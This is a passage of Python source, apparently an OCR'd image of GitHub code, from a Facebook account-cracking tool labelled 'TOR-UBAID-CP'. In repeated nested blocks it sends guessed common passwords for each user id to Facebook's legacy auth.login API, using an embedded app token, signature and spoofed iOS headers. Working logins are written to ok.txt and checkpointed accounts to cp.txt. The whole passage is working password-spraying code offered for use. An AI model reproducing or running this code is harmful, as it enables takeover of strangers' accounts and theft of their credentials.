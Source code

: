 					params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass2, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
					headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
					data = requests.get(api, params=params, headers=headers_)
					if "access_token" in data.text and "EAAA" in data.text:
						print(" \033[1;32m[TOR-UBAID-CP] "+uid+" | "+pass2+"\033[0;97m")
						ok = open("ok.txt", "a")
						ok.write(uid+"|"+pass2+"\n")
						ok.close()
						oks.append(uid+pass2)
					else:
						if "www.facebook.com" in data.json()['error_msg']:
							print(" \033[1;33m[TOR-UBAID-CP] "+uid+" | "+pass2+"\033[0;97m")
							cp = open("cp.txt", "a")
							cp.write(uid+"|"+pass2+"\n")
							cp.close()
							cps.append(uid+pass2)
						else:
							pass3 = "556677"
							api = 'https://b-api.facebook.com/method/auth.login'
							params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass3, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
							headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
							data = requests.get(api, params=params, headers=headers_)
							if "access_token" in data.text and "EAAA" in data.text:
								print(" \033[1;32m[TOR-UBAID-CP] "+uid+" | "+pass3+"\033[0;97m")
								ok = open("ok.txt", "a")
								ok.write(uid+"|"+pass3+"\n")
								ok.close()
								oks.append(uid+pass3)
							else:
								if "www.facebook.com" in data.json()['error_msg']:
									print(" \033[1;33m[TOR-UBAID-CP] "+uid+" | "+pass3+"\033[0;97m")
									cp = open("cp.txt", "a")
									cp.write(uid+"|"+pass3+"\n")
									cp.close()
									cps.append(uid+pass3)
								else:
									pass4 = "786786"
									api = 'https://b-api.facebook.com/method/auth.login'
									params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass4, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
									headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
									data = requests.get(api, params=params, headers=headers_)
									if "access_token" in data.text and "EAAA" in data.text:
										print(" \033[1;32m[TOR-UBAID-CP] "+uid+" | "+pass4+"\033[0;97m")
										ok = open("ok.txt", "a")
										ok.write(uid+"|"+pass4+"\n")
										ok.close()
										oks.append(uid+pass4)
									else:
										if "www.facebook.com" in data.json()['error_msg']: